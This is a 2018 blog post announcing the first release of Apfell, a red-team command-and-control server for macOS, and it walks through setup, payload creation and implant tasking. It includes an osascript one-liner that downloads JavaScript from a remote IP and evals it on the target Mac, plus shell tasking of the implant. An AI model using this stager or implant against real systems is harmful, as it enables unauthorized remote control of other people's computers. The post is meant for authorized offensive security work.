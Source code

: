 ```yaml
---
title: 'Bare-Bones Apfell server code release'
date: 2018-07-04
permalink: /posts/2018/07/Bare-Bones-Apfell-server-code-release/
tags:
  - Mac
  - Red Teaming
  - Database
  - Postgres
  - Web
---
```

It's been a long time since my last post, but it's finally time for the bare-bones Apfell server code release. There will also be a drop of a bare-bones Apfell implant to go with it and an accompanying blog series coming soon talking about design decisions, future ideals, and updates.

I've added a few more components to the bare-bones release to round it out and make it at least somewhat usable. Specifically:
*  Payloads - JXA
   *  I created the ability to use the base JXA template, swap in your own callback interval and server/port
*  Attacks - Host File
   *  I created the ability for the server to spin off python subprocesses to host files with user defined directories and ports to server up the JXA implants
*  API - CommandLines
   *  I created a relatively simple way to display examples command lines and explanations for the RESTful interfaces exposed by the server
*  API - apfell-jxa help
   *  I added in a little bit of information about the different basic commands available in the jxa implant and what the differences are
   
Before I post the link for the apfell code, we should take one more walkthrough for how information flows between all the components.

You can pip install the requirements.txt document to get all of the necessary python libraries, then run the setup.sh script to install and setup the postgresql database.
Inside of the main __init__.py file, you'll find a few things for you to customize. Specifically, the db_user, db_pass, and server_ip address should all be updated for your environment.
Then, simply run `python server.py` and you're up and running!

Open up a browser and navigate to the ip:port you just specified. You won't have an account yet, so click `Click to Register!` and create an account. When you log in, you'll be welcomed by a screen like the following:
![alt text][apfell-welcome-screen]

Click over to payloads and JXA (this is currently the only payload available, but there will be more coming soon). Obfuscation is an example of something that's hopefully coming soon, but right now that checkbox does nothing. Fill out all of the fields and click `Create Payload` to create your first apfell-jxa payload.
Specify the callback host and port to be where you will end up hosting this file. We'll do that part next. I give you three possibilities for how to execute the file depending on how you plan on getting the payload over to the remote system. 
Apfell is a post-exploit system, so it's up to you to find the initial access vector, then you can start using this.
![alt text][apfell-create-jxa]

The next main step is to host this file somewhere. I have a lot of ideas for how to display this information and save it off, but it's not required for the initial bare-bones release. If you go to `Attacks-Host File`, you'll just see some basic information. The main way to work with this right now is through the RESTful API.
For our example, we already have Apfell running on port 80, so lets host this file on port 8080. It's pretty simple with the RESTful API:

`appy@ubuntu:~$ curl -X POST -d '{"port":8080, "directory": "/home/appy/Desktop/"}' http://localhost/api/v1.0/attacks/host_file`

We can confirm this is running either with another query or from the browser by hitting the API:
![alt text][apfell-view-web-servers]

Now, we can go over to the target macOS box, open up the Terminal.app, and run the following code:
`osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('HTTP://192.168.0.119/example.js')),$.NSUTF8StringEncoding)));"`

Now you can click over to `Operations -> Callbacks` and see our new callback!
![alt text][apfell-new-callback]

click on `Interact` to have a new tab pop up that you can select. You'll also notice when you select this tab that the box at the very bottom of the screen changed to reflect the information about the current tab. This is where you can submit tasks for the apfell-jxa implant.
For example, we can do a few different kinds of tasks, and they will illustrate the output format for us:
![alt text][apfell-tasking]

There are three types of operations for the current apfell-jxa implant - shell commands, javascript commands, and deepunwrapped javascript commands (these are the ones utilizing the ObjectiveC-JavaScript bridge). The last one is potentially the most powerful, but also the most confusing.
Using the ObjectiveC bridge, I called and ObjectiveC function to get the current list of names my host has. The `js` command can also run these commands, but if the resulting type is an ObjectiveC type, you'll have issues getting anything back. The unwrap (or deepunwrap) capabilities allows us to change standard datatypes
back from the ObjectiveC world to the normal world.

When you're done working with an implant, you can task it to exit and remove it from your screen. When you do this, I mark the implant as no longer active, but I keep it in the database. I do this so that when I write a report-generating feature, you'll still have all the info from all of the implants spawned during an operation, but you don't need to leave them cluttering up your view.
If you simply click the `Hide Tasks` option for an implant, all that does is hide the bottom level tab from your view so things are a little cleaner. 
`Keystrokes` and `Screenshots` are currently placeholders, but are on my laundry list of things to add to the next release.

If you want information on the RESTful command-line interactive capability of Apfell, go to `API -> CommandLines`. 
![alt text][apfell-api-cli]

Lastly, there's a little bit of documentation on the three commands for apfell-jxa that I already mentioned under the `API -> apfell-jxa help` dropdown.

Like I said, this is a pretty bare-bones release, but illustrates everything working together through the process of making a working framework.
Now, that was the UI and a little bit of the RESTful interface, but how does the information actually flow for all of that? It seems like a lot of moving pieces based on what I covered in the previous blog posts, but it's not too crazy.

When the implant initially calls home, it sends a RESTful HTTP POST request to the server with some basic information. This information is then stored in the postgres database. If you don't have the browser open, the process stops there until you manually query it with the other RESTful APIs.
If you do have the browser open though, when you go to the `Operations -> callbacks` page, you're opening a few websockets back to the database and requesting all of the relavent information about the current callbacks, and asking to be notified if there are any updates. 
When you do get a new callback, a callback checks for new tasking, or some status on your callback changes, this information gets pushed asynchronous from the database through the web server up to your browser. This same process happens with any tasking and responses. You can then interact with the dynamically generated information for that callback in the browser.
When you want to task the implant, your commands are actually just RESTful queries back to the server, which saves the information in the database. Two things now happen:
*  There was a change in the database, so that change is pushed back up to your browser. This means that I purposefully don't immediately display your tasking to you. I wait until it's confirmed by the database. I do this because of this next part.
*  Now that your tasking is in the database, the next time the implant checks in, it'll get that tasking and set the status of the task to in progress. This way you're only seeing what's registered in the database. This helps keep everybody on the same page with each other and the implants.

I didn't want a scenario when it looks like you task something on your screen, but somehow the connection to the server is dead. You'll only see the tasking if it's to the point where the implant can actually see it. Similarly, I keep track of the progress of tasking via the RESTful APIs. I don't display this to the user since it might be a bit much, but if you query the tasks via the API, you'll see that their status is either `submitted`, `processing`, or `completed`. 

See, not too crazy. The hardest part for me to learn has been all of the web aspects. I've never done web programming before, so trying to make sure that the interfaces you see for the callbacks is all dynamically generated and updated in real time without having to refresh has been an interesting challenge.
One of the next big things for me to tackle is getting proper authentication and encryption throughout the process. Since this was all new to me, I wanted to make sure I could get the basics down before starting to add complexity.


[apfell-welcome-screen]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-welcome-screen.JPG "Apfell Welcome Screen"
[apfell-create-jxa]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-create-jxa.JPG "Apfell Create JXA Payload"
[apfell-view-web-servers]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-view-web-servers.JPG "Apfell View Web Servers"
[apfell-new-callback]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-new-callback.JPG "Apfell New Callback"
[apfell-tasking]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-tasking.JPG "Apfell Tasking"
[apfell-api-cli]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-api-cli.JPG "Apfell API CLI Examples"
